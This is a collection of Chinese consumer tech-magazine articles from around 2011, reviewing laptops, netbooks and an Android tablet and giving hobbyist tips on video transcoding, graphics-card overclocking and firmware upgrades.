锂离子聚合物电池也称聚合物锂电池、锂聚合物电池。用多聚物取代液态有机溶剂，是一种以胶状高聚物为电解质的可充电电池。它的可塑性极强，可以根据产品模具来设计形状，更利于提供轻薄化产品，而普通的电解液电池就只能做成圆柱形。另外，锂离子聚合物电池相同体积下容量要比电解液的锂电池大，也就是说能拥有更长的使用时间。还有一点也很重要，它解决了电解液锂离子电池在高温下容易爆炸的安全问题。

### SONY VPCSD19EC/B 硬件配置
| 处理器 | Intel Core i5-2520M 主频2.50GHz |
| :--- | :--- |
| 内存 | 4GB DDR3 1333内存(板载) |
| 显卡 | AMD Radeon HD 6470M 512MB |
| 显示器 | 13.3英寸LED瑰丽屏 1366×768分辨率 |
| 硬盘 | 640GB 5400转 |
| 电池 | 69Wh 4400mAh 锂聚合物电池 |
| 重量 | 整机重量1.718Kg 旅行重量2.115Kg |
| 预装系统 | Windows 7 Home Basic |
| 官方售价 | 9499元 |

# APU和Atom谁更强：ACER AO522 “给力” 体验

AMD APU的出现，为沉寂已久的上网本注入了新鲜的血液，目前包括ACER和华硕在内的很多厂商都推出了搭载AMD C50的双核上网本，但C50的主频只有1.0GHz，与英特尔阵营的Atom N550（双核1.5GHz）相比到底谁更给力呢？

## 和一般的上网本有啥区别

之所以选择ACER AO522，除了它是最新推出的APU上网本以外，再有就是这款产品屏幕的分辨率达到了1280×720像素，而其它10英寸上网本多为1024×600像素，显示效果更细腻，而且还以点对点播放720P的高清视频。至于外观设计，AO522与ACER旗下Atom平台的上网本一般无二，并没有采用全新的模具设计，就这一点来看ACER有些图省事儿之嫌。

## 能玩3D游戏不

AMD C50的主频不高，但它却集成了Radeon HD 6250显卡，80个流处理器的规格和入门级独立显卡HD5450一致，支持最新的DX11技术，在3DMark2006中可以达到677分的成绩（1280×720分辨率），较Atom N550集成的GMA3150显卡有了质的飞跃。可能上述言语有些抽象，用实际游戏举例的话，Atom N550上网本只能运行《Dota》，而C50在玩转《Dota》的前提下，还可以在1280×720像素最低画质下运行《星际争霸2》（16-32帧），《鬼泣4》在特效全关的状态下可以达到18-35帧，虽然谈不上流畅，但至少可以勉强体验这些游戏了。总之，就游戏性能而言，C50远超双核Atom，但仍不适合玩大型3D游戏。

## 看1080P高清流畅不

采用Atom N550双核处理器的上网本可以流畅播放峰值码率达到30Mbps的720P视频，但面对1080P的影片就有些玩不转了，播放17Mbps码率左右的1080P视频就会感觉明显的卡顿，而AMD C50双核APU则可以完美驾驭高清视频，播放720P/1080P视频时CPU占有率分别在25%和50%左右，非常流畅（建议使用PowerDVD或终极解码一类的播放软件，笔者用暴风影音播放1080P视频时，即使打开设置中的硬件加速，CPU占有率也始终维持在90%以上），因此，如果你喜欢用上网本接驳大尺寸显示器看高清视频的话，APU可以给你带来更完美的视觉体验。

## 散热表现可以接受吗

笔者用鲁大师对AO522进行了极限温度测试，把AO522放在木质的桌面上最高温度达到了90度，当用几本书将AO522后端垫起，给散热孔部分留出空气流动的空间后最高温度则会维持在85度上下。由此可见，C50在全速工作时的发热量不低，而AO522由于散热孔很小，在紧贴桌面的情况下会影响空气流通从而影响散热。我们在使用时尽量可以配一个金属散热底座，或者将笔记本底部垫起，保证散热孔附近与桌面保持一定的距离。

## 适合什么样的用户

C50是AMD较低端的APU（最低端为单核的C30），但性能可以和更高主频的双核Atom比肩，在游戏方面的表现则更为突出。在产品设计方面，AO522的键盘值得称道，除了方向键等不常用的按键，其它按键的键帽面积和普通尺寸的笔记本一样，不像其它上网本键盘区域那么紧凑，打字时的手感不错。此外，AO522标配6芯锂电池，一直用WiFi上网情况下，电池可以坚持将近4个半小时，续航能力还算不错。总之，搭载C50处理器的ACER AO522适合注重便携性、娱乐性、键盘手感、续航时间以及性价比的用户选择。（文/大刚）

# 小黑也能玩游戏：ThinkPad E420S入手体验

都说ThinkPad不适合玩游戏，但E420系列（包括普通版和精锐版）足以改变这一传统印象，全新的SNB处理器再加上AMD HD6630M独显，至少在性能上可以完胜更高价位的T420系列，不信？那就来看看笔者的试用感受吧。

## 这个小黑能玩游戏

在我的印象里，ThinkPad一直就是商务专用，即便是高端的T系列也没有配备好显卡的型号，难道商务用户就不玩游戏了？还好从E420开始，ThinkPad终于有了开始搭配较高独立显卡的产品了，HD6630M独显的性能真的不错，可以很流畅地玩《失落的星球2》一类最新的3D游戏了。于是我淘汰了伴随我四年多的T60，选择了最新精锐版的E420S，理由很简单，做工不逊于T系列，性能不逊于联想小Y一类的娱乐机型。

## 武装 SSD 硬盘反应更快

我购买的这款E420S为高配版，除了内置320GB（7200rpm）硬盘以外，还配备了80GB SSD固态硬盘。平时我将电影游戏等文件都保存在7200rpm的普通硬盘上，而操作系统则安装在SSD固态硬盘上，用“360安全卫士”自带“开机加速”功能一键优化，关闭不需要开机启动的程序和服务以后，开机时间可以缩短至26秒，基本可以秒杀绝大多数高端笔记本和台式机了。除了开机速度变快以外，E420S在读取游戏和打开文件的速度上也有了明显的提升。咱们可以看一组数据对比：网上评测的无SSD硬盘的E420S，在PCMark Vantage中的总成绩也就是5500左右，而我的这款高配E420S则可以达到10338分，差距惊人。可见，如果今后你也想让笔记本运行更迅疾，不妨再配一块SSD硬盘（30GB足矣，500元左右，可安装在光驱位上）。

## 变身大容量移动电源

E420S机身右侧有一个黄色的USB，这就是“传说中”支持关机充电的接口，可以将笔记本打造成硕大的移动电源。但想启用这个功能，还需进入“电源管理器”设置软件，在“全局电源设置”中勾选“始终开启USB供电”，否则该功能可能无效哦。

## 独显集显随你调度

E420S预装了最新版AMD移动显卡驱动，加入了更智能的双显卡管理功能。进入AMD显卡控制中心，在左侧列表中展开“电源→可切换显示卡”，在右侧的设置页中就可以手动为具体程序设定启动模式了。比如i5-2410M处理器本身就集成了强大的核芯显卡，我们就可以将播放器、《魔兽争霸3》等主流3D游戏手动设定在“省电”（集显）模式，而类似《星际争霸2》一类的大型3D游戏则可定义在“高性能”（独显）模式，避免造成资源浪费，还省电。虽然这个技术还不如NVIDIA的Optimus技术智能，但在显卡切换时总算是不会出现短暂的黑屏了，实用性已经可以接受了。

## 选择普通版还是精锐版

笔者购买的高配版E420S售价在万元以上，要不是公司可以分期报销，我可能最终会选择无SSD硬盘的低配版E420S，或者没有“S”后缀的普通版E420。与精锐版E420S系列相比，E420只是将外壳材质从碳纤维换成了ABS塑料，去除了金属边框，在用料方面稍作简化，但在性能和功能上并无缩水。对预算紧张的同学来说，这两类产品也是不错的选择。目前无SSD硬盘版E420S的市场价格为6999元/7999元（i3/i5版），而采用i3-2310M与HD6630M组合的普通版E420甚至不足4700元，性价比更高。总之，如果你觉得T420性能不给力，又能接受E系列这种非ThinkPad传统风格的造型，那么E420S精锐版无疑是首选，而E420普通版则更超值。（文/张华）

# 2000元 攒机还是上网本

前不久有朋友问我，预算2000元如何攒电脑，这位仁兄属于北漂一族，居无定所，偶尔还需要外地出差，苦不堪言。综合他的实际情况，健圣给出了颇为另类的建议：不要DIY攒机，直接选购上网本。

进入正题以前我们先来看看2000元能攒出什么样的配置吧。此价位攒机，CPU和主板的成本必须控制在800元以内。AMD方面可以考虑速龙II与890GX主板的组合，集成Radeon HD4290显卡；英特尔方面可以选择奔腾双核E5700与G41主板搭配，集成GMAX4500显卡；再或者就是选择集成APU的主板，比如昂达的AE350魔固版，板载E350处理器（双核1.6GHz），集成Radeon HD 6310显卡。

通过对上述配置的分析，不难发现此价位产品不可能具备多么强大的3D性能，只能选择廉价的机箱电源等外设，稳定性和寿命很难保证。反观2000元价位的上网本，现在已经可以购买到AMD C50（双核1.0GHz，集成Radeon HD 6250显卡）或英特尔Atom N550（双核1.5GHz，集成GMA 3150显卡）的配置，游戏性能和前面DIY的配置半斤八两，只是限于功耗的制约，低主频的CPU在运算性能上有些缩水，但也足以满足日常的办公和娱乐的需求了。

此时，上网本的另外几大优势就显得尤为突出：轻薄小巧，10英寸屏幕和1.2kg左右的重量，搬家时不成负担；低功耗的设计，长时间使用更节能，完全可以脱离显示器独立使用，出差、上班时可随身携带；自带保修，出现兼容性问题的几率近乎为零。如今的上网本都自带VGA和HDMI接口，可方便接驳大尺寸显示器（现在一台21.5英寸全高清的显示器只需800左右），再购买一套2.4G的无线键鼠套装，上网本完全可以充当HTPC的角色，而且使用范围上不受房间的限制，这可是DIY所无法比拟的。

因此，如果你也有和健圣朋友类似的需求，不妨跳出DIY的圈子，只要下面5个需求中的3个能符合你的现状，类似上网本这种轻巧的终端产品说不定更合适你。

- 1. 预算不多，短期内只能购买这么一部电脑
- 2. 只玩《Dota》、《CF》一类的3D游戏
- 3. 家里和工作的地方都需要使用计算机
- 4. 偶尔外出时也需要处理应急的PPT等文档
- 5. DIY经验不足，不会排除简单软硬件故障

## X86染指平板 Windows支持ARM 平板电脑迎来“混乱之治”

AMD Fusion APU将X86体系架构与强劲的GPU整合在了一起，在不到半年的时间里出货量已达500万，在上网本与超轻薄笔记本领域的知名度已经不逊于英特尔培育多年的Atom凌动处理器。继英特尔借新一代Atom (Oak Trail) 挥师平板市场后，AMD也计划让APU染指平板市场，届时这两大X86阵营的大佬，将与ARM阵营形成三足鼎立的格局。

新的血液。据悉，AMD还在招聘编写Android驱动程序的工程师。这意味着APU将支持包括Windows和Android在内的多种操作系统，而对多系统的支持，也是英特尔即将推出的Atom平板电脑的最大卖点。



| APU家族 | 适用范围 |
|---------|----------|
| G系列   | 嵌入式领域 |
| C系列   | 上网本 |
| Z系列   | 平板电脑 |
| E系列   | 超轻薄笔记本 |
| A系列   | 台式机或标准尺寸笔记本 |

AMD针对平板市场定制的APU为全新的Z（代号“Desna”）系列，支持Flash, DirectX 11以及IE9/HTML5，并引入VISION视觉引擎，被AMD誉为“终极高清平板机”解决方案。其实早在AMD发布Z系列APU之前，ACER就已经推出了业内首款采用C50双核处理器的平板电脑Iconia Tab W500，但C50的TDP高达9W，发热量和功耗都难以令人满意。而Z系列APU的出现，无疑将进一步改善C系列在功耗方面的尴尬，成为X86架构下唯一具备DirectX 11级别GPU的平板解决方案，为平板市场注入新的活力。

就在英特尔和AMD绞尽脑汁让X86架构兼容更多操作系统之际，微软也在想尽办法让Windows系统兼容X86之外的ARM架构：在6月初的Computex台北国际电脑展上，微软将展示针对平板电脑优化的定制版Windows系统，甚至可以在基于ARM架构的平板电脑上运行的Office和IE软件。一面是硬件端巨头，一面是系统端大佬，都想用现有资源抢占更多的市场份额，可以预见未来的平板战场将更为热闹，出现X86+Android、ARM+Windows、ARM+Android、X86+Windows组合的混乱格局。

摩根士坦利曾表示，平板电脑出货量将从2010年的1600万台增至2011年的6500万台，两年内全球平板电脑出货量将增长5倍，2012年达到1.01亿台。面对如此庞大的市场需求，四种组合似乎都会存在各自的生存空间。那么，面对未来可能出现的软硬组合方案，您更看好哪一种呢？我们在《电脑爱好者》官方微博也发起了相关的投票 (http://t.cn/hDINaY)，欢迎各位读者能参与讨论。

## 视频转码速度慢 快找SNB核芯显卡来帮忙

小志新买了一部SNB独显笔记本，承担起了为iPhone4手机转换视频文件格式的工作。但用过一段时间后才发现，这款高配笔记本的转码速度竟然比不上同学家那部廉价的SNB集显笔记本。同样将一部1080P高清视频转换成720P的MP4格式文件，小志的本本需要将近一小时，而同学只需十几分钟，这到底是怎么回事呢？

笔记本所用的SNB处理器均集成了支持“Quick Sync Video”技术的HD Graphics 3000核芯显卡，视频转码效率超过了NVIDIA独显的CUDA技术，这意味着对相同一段视频转码，核芯显卡所需的时间要比采用NVIDIA或AMD独立显卡快得多。运行视频转码软件时小志的笔记本工作在独立显卡状态，因此转码速度自然不及同学的笔记本。此外，并不是所有的视频转码软件都支持SNB集成的核芯显卡，比如我们常用的“暴风转码”和“格式工厂”，即使你安装了类似的软件也无法调用“Quick Sync Video”技术。下面咱们就来看看小志是如何解决上述问题的吧。

### 好马还需配好鞍

目前“MediaCoder”和“MediaEspresso”都加入了对核芯显卡“Quick Sync Video”技术的支持，其中“MediaEspresso”的界面最友好，操作也简单。可惜这款软件没有免费版，而且不支持RMVB和外挂字幕。感兴趣的同学可以下载试用版尝鲜，操作教程也很简单。

### 强制核芯显卡上岗

很多SNB笔记本都内置双显卡，为了避免运行转码软件时进入独显模式，需要我们手动指定在核芯显卡模式下运行。NVIDIA双显卡笔记本，在桌面点击鼠标右键进入“NVIDIA控制面板”，在“管理3D设置”窗口中点击“程序设置”选项卡，手动添加“MediaCoder.exe”并指定以“集成图形”模式运行。AMD双显卡笔记本，在桌面点击鼠标右键进入“配置可交换显示卡”，在设置界面点击“浏览”按钮添加“MediaCoder.exe”并指定在“省电”模式下运行。

### 一切就绪开始转码

运行“MediaCoder”，点击左上角“ADD”的图标添加需要转码的原始视频文件。在输入图片的左侧进行详细的格式、帧速、音频和编码的设置。笔者的手机为iPhone4，所以选择了“iPhone 4(720p)”，在“编码”中选择“GPU (Intel)”，其余设置不用管，点击“START”图标后软件就会进入转码状态了。

### 速度差距用数据说话

核芯显卡的转码速度到底如何？咱们还是用一组数据来说话吧。笔者的笔记本采用了酷睿i3-2310M，内置NVIDIA GT520M独立显卡，将一段MKV格式的高清视频（2238MB，44分钟）转换成适用于iPhone4（720p）的MP4格式文件，在CPU硬解码、NVIDIA显卡解码和核芯显卡解码三种状态下进行了测试，单纯用CPU解码，耗时48分钟左右，即使是NVIDIA独显解码也需要43分钟，而用核芯显卡解码则只需18分钟！

至此，困扰小志的问题终于解决了。如果你也有类似的需求，经常在手持设备上欣赏视频，一定要优先选择没有屏蔽核芯显卡的SNB笔记本，并找到真正对“Quick Sync Video”技术加以优化的转码软件，真正做到“事半功倍”。

## 大号APU 华硕K43BY笔记本体验

在我们的印象中，AMD现阶段的Fusion APU都是上网本或超轻薄笔记本的专利，而华硕却将TDP只有18W的E350武装在了一款14英寸笔记本身上。当APU与大尺寸笔记本结合后能碰撞出怎样的火花？

### APU碰到大屏幕

华硕K43BY最大的特色就是采用了APU与大尺寸屏幕结合，在实现节能的前提下可以提供更广阔的视野，毕竟不是所有人都追求“低功耗+便携性”的组合。像我这种预算有限，只能为家里添置唯一一部电脑的人来说，选择11.6英寸APU小本的话显然缺乏“面子”，而K43BY则可以在低功耗、大视野、性价比三方面得以均衡。华硕K43BY采用了奥特蓝星扬声器，利用随机的“Sonic Focus”软件还可以自定义声音清晰度、环绕声和低音的详细参数，看电影时可以得到更佳的听觉体验。

### 双显卡助力游戏体验

选择K43BY的另外一个原因是它还额外配备了Radeon HD6470M独立显卡，弥补了E350集成的Radeon HD6310显卡性能不够给力的缺陷。就笔者唯一喜欢的游戏《星际争霸2》来说，如果只用HD6310集显游戏，只能在最低画质下勉强应付，到游戏中后期会变得非常卡顿。但在HD6470M独显模式下，则可以在普通画质下流畅游戏了，像我这种对大型游戏不感冒的人来说，华硕K43BY的性能足够了。此外，由于E350处理器本身的发热量不高，使得K43BY的发热量得到了有效控制，长时间游戏后处理器所处的键盘区域基本感觉不出热量，反而是无线网卡所对应的触控板的温度最明显（相对而言，其实摸起来也不算热）。所以我平时都是关闭无线网卡，在有线的环境下上网。

经过一段时间的使用，我也发现了一个问题，AMD显卡控制面板中缺少像NVIDIA“全局控制”的功能，也就是无法强制笔记本始终工作在集显或者独显的状态。很多程序首次运行时都会弹出让你配置可切换显卡的对话框，让你手动指定以独显或者集显的模式运行。初时可能会感觉人性化，但随着安装的程序越来越多难免会产生抵触心理。总之，华硕K43BY比较适合对大型3D游戏不感冒，家中只能购买这么唯一一部笔记本，而预算又有限的用户。如果你家里还有额外的大尺寸LCD或需要经常外出办公，笔者建议你选择配备E350处理器的11.6英寸轻薄本，HD6310集显性能够用，外接显示器也可以弥补小屏幕带来的视觉上的缺陷。（文/雷文涛）

## 理性看待独立显卡 笔记本重回集显时代

将时针拨回至六年前，那时的笔记本还是集显一统江湖，借助用户渴望更强娱乐性能的契机，独显在近几年中攻城略地，至今已成“无独显不主流”的景象。而这一切，则随着SNB与APU的出现而有所改变：越来越多的产品开始舍弃独显，回归原始的集显时代。

### 重新定位的集显

有关Intel SNB处理器集成的核芯显卡我们已经不止一次介绍过了，而AMD Llano APU又再次给我们带来了全新的震撼，以四核芯的A8-3500M（1.5GHz/2.4GHz，默频/自动超频）集成的HD6620G显卡为例，在3Dmark Vantage的测试中，GPU子项的成绩已经高达14852分，甚至已经接近GT525M和HD6630M这类中端独立显卡！而核芯显卡的分数也能达到8105分，面对《魔兽争霸3》、《穿越火线》、《极品飞车14》和《生化危机5》已无压力。

### 被游戏绑架的独显

CPU内部已经集成了高性能显卡，那独立显卡就无生存空间了吗？当然不是。受功耗的制约，CPU内部集成的显卡不可能拥有太高的频率，因此性能与同级别的独立显卡尚存差距。为了不让集成显卡抢了饭碗，NVIDIA和AMD势必也会强化未来“入门级”独立显卡的性能，也许明年5000元的笔记本就能具备当前万元级笔记本的游戏性能。总之，目前的集成显卡可以让你“尝鲜”大型3D游戏，但要想爽刷这类游戏，还是需要更高端独立显卡的支持。如果将集成显卡比喻成草原上的小狮子，而独立显卡则是有着丰富狩猎经验的成年的母狮。小狮子年幼的时候（早期的集显）的确离不开母狮的保护与喂养（看高清玩游戏都不给力）。随着它一天天长大（目前的集显），狩猎技巧也逐渐娴熟，已经可以轻松捕获草原上的小动物（可流畅看高清、玩3D游戏），但当遇到野牛这种体型太大的猎物（大型3D游戏），还是得轮到成年母狮出马才能搞定（双显卡切换，玩大型游戏需要切换到独立显卡）。在特定环境下，小狮子甚至可以和母狮一起协同作战（AMD APU的混合交火技术），从而更快地结束战斗。现实的问题是，草原上的小动物足够多，狮子根本没必要冒着危险去捕食更大的猎物。换句话说，如果你对大型3D游戏不感冒，还真需要仔细考虑一下是否需要独立显卡了。

| 显卡型号 | 3DmarkVantage(GPU, E等级) |
| --- | --- |
| GT555M | 23516 |
| HD6730M | 21375 |
| GT550M | 18166 |
| GT540M | 17077 |
| HD6550M | 16687 |
| HD6630M | 16215 |
| GT525M | 15652 |
| **HD6620G** | **14852** |
| HD6470M | 11001 |
| GT520M | 9633 |
| **核芯显卡** | **8105** |
| HD6370M | 6409 |
| **HD6310** | **4168** |
注：常见独立显卡与集成显卡 3Dmark Vantage 测试成绩

### 没有独显会怎样

台式机体型硕大，处理器、主板芯片组和显卡有足够的空间安置独立、互不干扰的散热模块，谁热最高只需换一套效能更强的散热风扇即可。拆开笔记本，你所能看到的则是一套非常紧凑的共享型散热模块：CPU、芯片组与独立显卡芯片上分别盖着一块金属板，上面连着1-2条铜质的散热导管。也就是说，在笔记本内部这几个硬件的热量是叠加的。可以想象，如果笔记本内部少了独立显卡芯片，一方面可以简化主板布局，有利于设计出更轻薄的产品；另一方面，少了显卡这个发热源，既能减轻散热模块的压力，同时还能降低笔记本整体的功耗，在电池容量不变的前提下获得更长的使用时间。

### 需要转变的观念

可惜，经过前些年厂商和媒体的“洗脑”，独显“等于”游戏的观念已经深入人心。厂商为了迎合消费者的这一潜意识，想尽一切办法也要将独显塞进笔记本的体内，无论它需不需要。而没有独立显卡的笔记本，只能沦落为“低端”的代名词，因为集显本若卖高价会被耻笑的。因此，鲜有厂商去针对SNB或APU的轻薄本定制一套轻薄的外衣，宁可将AMD C50这种功耗仅有9W的APU装进现有产品那笨重的模具中。实际上这颗处理器完全可以打造出不到2kg的15.6英寸超薄笔记本，只是没有人愿意尝试。随着Intel低功耗版SNB处理器以及AMD Llano APU的慢慢普及，相信笔记本终将会走进更理性的发展阶段，让用户花同样的钱就能抱着一台足够强大、更轻薄、更长使用时间的产品，毕竟这才是最广泛的笔记本用户的真正需求。至于大型3D游戏？还是留给台式机和配高端显卡的高价本去解决吧。

## 合理超频 让你的显卡变身“超级赛亚人”

ray最近新买了一款同方K41H笔记本，采用了酷睿i5-2410M和GT525M显卡的组合。乍看下GT525M显卡比较低端，性能不够“给力”，但ray却通过超频的方式，让GT525M变身“超级赛亚人”，性能表现甚至超越了更高端的GT550M！那么，他是怎么做到的呢？之所以选择这款笔记本，笔者看中的就是其合理的配置与性价比，同样的钱还能买到i5-2410M+GT520M，或者i3-2310M+GT540M显卡配置的产品，前者的显卡阉割严重，而后者CPU的主频又太低，综合来看i5-2410M+GT525M的组合更为合理，因为GT525M与更高端显卡的差别仅在频率，借助第三方软件则可以轻松修改显卡频率，何乐而不为呢？

| NVIDIA | 流处理器 | 显存位宽 | 核心频率 | 显存频率 |
| --- | --- | --- | --- | --- |
| GT550M | 96 | 128bit | 740MHz | 900MHz |
| GT540M | 96 | 128bit | 672MHz | 900MHz |
| GT525M | 96 | 128bit | 600MHz | 900MHz |
| GT520M | 48 | 64bit | 740MHz | 800MHz |

### 如何超频？

对普通用户而言，建议使用NVIDIA官方的System Tools（系统工具，下载地址：http://tinyurl.com/3lpgf7n）进行超频。安装该工具后，双击桌面生成的“Performance”快捷方式，此时在NVIDIA控制面板的左侧列表中会出现全新的“性能”一栏，点击它会出现让你接受许可协议的对话框，选择接受后就会出现“设备设置”的选项，在这里就能修改显卡的核心与显存频率了。小提示：不同显卡可以调整的频率幅度各不相同，以GT525M为例，核心与显存最多可以超频到1200MHz与1080MHz，超频时的幅度要循序渐进，比如先将GT525M超频到GT540M的默认频率，稳定的话再尝试GT550M的默认频率，没问题的话则可再挑战更高的频率。以NVIDIA G500M系列显卡的体质而言，核心频率的最高上限在850MHz左右，超过此频率会很危险。

### 令人咋舌的性能提升

光说不练假把式，接下来咱们就用实际的测试说话。GT525M默认的核心与显存频率分别为600MHz和800MHz，此时在3DMark2006（1366×768）的测试中只能取得7419分的成绩，并不理想。当核心/显存频率超频到800/1080MHz时，9836的分数已经向GT550M看齐了。将核心频率再度调整到825MHz，3DMark2006更是轻松突破10000分大关。如果笔记本配备的是更高主频的i7-2630QM，相信成绩还会有进一步的提升！可能有同学会认为我是“跑分党”，接下来咱们再来看看实际游戏上的变化。以目前最热的国产网游《剑侠3》为例，GT525M在超频前，关闭抗锯齿、全屏柔光和动态模糊，同屏人数设定为10，其余设置均为最高的画质下，战斗或人多的时候只有19~24fps，勉强能玩。将GT525M超频到825/1080MHz之后，在开启抗锯齿、全屏柔光和动态模糊，同屏人数设定最高的画质下，战斗时游戏速度仍可达到22~24fps，明显流畅了很多，小副本时再也不用降低画质了。

| 核心/显存频率 | 3DMark2006（1366×768） | 街霸4平均帧数 | 功耗（游戏满载时） |
| --- | --- | --- | --- |
| GT525M 600/800MHz（默认） | 7419 | 49fps | 60W - 70W |
| GT525M 800/1080MHz | 9836 | 63fps | --- |
| GT525M 825/1080MHz | 10111 | 67fps | 55W - 68W |

### 超频对散热功耗的影响

对显卡超频势必会影响笔记本的散热，但对于散热模块设计合理的产品而言，合理范围内的超频并不会带来太过明显的温度提升。就拿笔者的笔记本来说，用“鲁大师”监测超频后玩游戏时的温度，CPU和显卡的最高温度分别为86度和77度，我还没有使用散热底座，77度对显卡来说还是相当“凉快”的呢。至于功耗方面，超频前后的差距在5W~10W之间，相对于性能的提升可以忽略不计。需要注意的是，我们通过NVIDIA System Tools修改的只是最高频率，当笔记本在进行上网一类低负荷操作时，整机的功耗也就是15W左右，可见不玩游戏的话超频前后在功耗方面并无明显区别。

### 健圣有话说

ray的这番“折腾”刚好验证了上一期杂志中《一步到位！CFan教你挑选最超值的游戏笔记本》这篇文章的观点：“在价格相近的情况下，i3-2310M+GT540M的组合反倒不如i5-2410M+GT525M的组合。后者的处理器睿频加速后可达2.9GHz，只要再对显卡稍作超频，性能可轻松超越前者。”目前绝大多数笔记本的散热模块都可以承受一定的超频压力，如果你的笔记本采用了GT525M这类低频率的高端显卡，不妨尝试通过超频的方式获得更强的性能吧。夏天对笔记本显卡进行超频要格外注意本本的散热，建议安装鲁大师并设置高温警报（85~90度）。超频后的显卡在玩游戏时如果频频超过此设定值，建议适当降低频率。对于喜欢用笔记本玩游戏的用户，尽量可以再配备一个金属的散热底座来辅助散热，毕竟我们对显卡超频只是希望压榨显卡性能提升游戏体验，决不能以牺牲稳定性为代价。(文/ray)

## Android 3.1来了 华硕Eee Pad Transformer TF101体验

在购买华硕TF101之前，其实我也在摩托罗拉XOOM和ACER A500之间犹豫过，但综合网上的评测和到国美的亲身体验，发现XOOM的屏幕效果真的很一般，而且价格太贵；ACER A500很有金属质感，但重量偏沉，把玩起来总觉得有些别扭。因此最终还是将目标锁定在了华硕TF101身上，恰逢京东特价，入手TF101旗舰版（4299元），包括16GB版本的TF101主机与价值1299元的键盘底座。

### 轻薄中性的外观设计

华硕TF101的重量约680g，机身厚度也可以接受，可以轻松塞进耐克或阿迪那种最普通的单肩背包中。这款平板的外壳采用了咬花纹路设计，金棕配色的机身和黑色的屏幕边框很搭，整体感觉比较中性，属于偏沉稳的类型。咬花纹路的外壳还能增强摩擦系数，握在手中也不会打滑。TF101只提供了电源与调节音量的物理按键，Android系统手机上常见的“主页”、“返回”等快捷键都集成在了Android 3.0系统界面中。在扩展接口方面，华硕TF101具备miniHDMI和Micro SD卡扩展槽，可惜充电和数据线都共享底部的扩展接口，也就是说充电的时候就无法与电脑同步了，这一点比较遗憾。

### 键盘底座助TF101变形

可能是华硕在笔记本领域积累的经验吧，让他深知输入体验对用户的重要性。当TF101与键盘底座结合后，你很难发现这款“笔记本”与10.1英寸的上网本的差别：屏幕角度可随意调节，多点触控板、“巧克力”风格设计的键帽、机身两侧的USB接口与读卡器……你可以用最熟悉的方式在TF101上输入文字和操作。若你仔细观察，不难发现键盘底座的某些按键功能发生了变化：Win键变成了“主页键”，ESC换成了“返回键”，右Alt和右Ctrl中间的键也换成了“菜单键”，这些可都是Android系统上必备的快捷功能键。

键盘底座除了能让TF101变身“笔记本”之外，其内部还隐藏着一块大容量的锂电池，当TF101与键盘底座结合后可以为TF101充电（优先耗损底座内的电池，底座没电时才消耗TF101本身的电力），最长可以提供16个小时的续航时间，就续航能力而言足以秒杀一些“xPad”。值得一提的是，这个底座的外壳采用了和TF101一样金棕配色，整体看起来更为美观。

### 轻松升级Android 3.1

别看XOOM是最早上市的一批Android 3.0平板，但在升级最新3.1系统（国行版本）的速度方面还是落后于华硕TF101。从6月中旬开始，华硕便开放了3.1版固件的“空中升级”，并在官网提供了3.1版固件的下载，成为国内第一批正式运行上Android 3.1的平板电脑。

小提示：如何升级3.1版固件 接入WiFi网络时，在“设置→关于平板电脑→系统更新”中点击“检查更新”按钮，TF101会自动搜索最新可用的固件信息并提示升级，俗称“空中升级”。在没有WiFi网络的情况下，我们可以登录华硕官网下载（地址：http://tinyurl.com/6ghxtr6），在“固件”中下载后缀为“CN”的固件（国行版本，260MB左右），将下载的zip格式的文件解压缩，会得到一个名为“ASUS”的文件夹。

将该文件夹拷贝到SD卡的根目录内，然后插进TF101的存储卡槽，稍后在界面右下角会弹出系统更新的提示，点击后就会出现询问是否更新的对话框，点击确定按钮后TF101会自动重启并进入系统升级的界面，稍等大概5分钟系统就可更新完成，放心，使用官方的系统更新不会对原有数据造成影响。重新进入“设置→关于平板电脑”，看看系统版本是不是已经变成“Android 3.1”了？

### 升级Android 3.1体验





想时刻保持WiFi在线，记得修改这里。

视频体验有提升：升级Android 3.1后，TF101的视频播放能力有了一定的提升。其中最明显的就是H264解码，以前看720P电影时会有些卡顿感觉，现在则变得非常流畅。笔者常用的VPlayer（0.95）播放器运行时会崩溃，升级到0.96或以上版本问题解决（下载地址：http://tinyurl.com/3y4yc4ec）。有意思的是，无论是VPlayer还是MoboPlayer这种第三方视频软件，在播放MP4格式的720P视频时都没有系统自带的播放器流畅，用系统播放器甚至已经可以播放码率不高的1080P MP4视频了（激烈场景偶尔还是会跳帧）。此外，如果你喜欢看高码率的720P视频，一定要拷贝到机身内存中欣赏，如果保存在外置存储卡上播放会有卡顿（对存储卡本身速度要求很高）。

上网体验有改进：除了本地视频播放性能有所提升外，3.1对在线视频的欣赏也有了一定的改善。比如登录PPTV的客户端软件，“蓝光”版本的视频文件已经可以流畅播放了（3.0下卡顿得厉害）。新浪在线视频可以流畅播放HD级别的影片，搜狐在线视频建议将图像质量设成“自动”，如果设置为“超清”还是略有卡顿的感觉。此外，3.1在浏览网页时的速度提升同样明显。笔者家里用的是2MB ADSL和TP-LINK无线路由器，打开新浪网首页只需十几秒，在加载动画的速度上比3.0快一些，就速度而言已经很接近家里的笔记本了。在网页Flash游戏上，3.1系统虽然有了一定的改进，但偶尔还是会出现丢帧延迟的现象。

健圣有话说：Android 3.1可以看做是3.0的小改款，在原有功能上加以优化，推荐用户更新。这篇文章主要介绍了华硕TF101这款产品与3.1系统改进的地方，如果你想了解更多有关Android 3.x系统的使用技巧，或者想知道NVIDIA Tegra 2硬件的性能水准，请参考《电脑爱好者》2011年第13期的《超越iPad Android 3.0我看行！》这篇文章。（文/hiker）

## 核芯显卡 比想象中更强大

前不久我在CFan小编的建议下买了一台戴尔Vostro 3350，成交价5999元（商家赠一根2GB的内存）。作为一台集成显卡的笔记本，这个价格还真不便宜，不过使用了一段时间之后感觉还是物有所值的。

我经常出差，所以不能使用太笨重的本子。Vostro 3350是款13英寸的机子，不算很轻巧，但比我以前的T61要便携多了。而且它还采用了金属材质的机身，很有戴尔外星人笔记本的风格。在细节上，这款本的键盘带有背光灯，和苹果MacBook的一样，这一点我觉得比Thinkpad在屏幕上方安装一个灯来照亮键盘的效果更好，不过我认为背光灯可能会更耗电。键盘的手感比T61弱了不少，不过回馈感不错。此外，这款本左侧的两个USB接口都是3.0的，右侧和e-SATA公用的则是普通2.0（主要用于接鼠标），在现在的笔记本中很另类。可惜我手上却没有一个USB3.0的U盘或者移动硬盘。

出差时，我用得最多的就是 Office和上网查资料，偶尔也用用Photoshop。在这些方面，核芯显卡都表现得很不错，即使是同时开多个网页，并用PS处理几张尺寸稍微大一些的图片，也能轻松应对。以前的集显笔记本在进行这些操作时，偶尔还会卡顿一下，需要等待的时间更多一些，这些Vostro 3350都完成得非常好。

